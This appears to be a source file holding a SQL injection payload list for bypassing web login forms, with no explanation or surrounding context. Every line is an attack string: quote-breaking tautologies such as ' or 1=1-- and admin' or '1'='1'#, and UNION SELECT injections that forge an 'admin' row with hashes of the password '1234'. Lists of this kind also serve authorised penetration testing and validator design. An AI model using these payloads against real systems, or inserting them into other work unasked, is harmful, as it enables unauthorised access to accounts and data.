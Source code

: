 ```
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
1234 ' AND 1=0 UNION ALL SELECT 'admin', '7110eda4d09e062aa5e4a390b0a572ac0d2c0220
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
1234 " AND 1=0 UNION ALL SELECT "admin", "7110eda4d09e062aa5e4a390b0a572ac0d2c0220
==
=
'
' --
```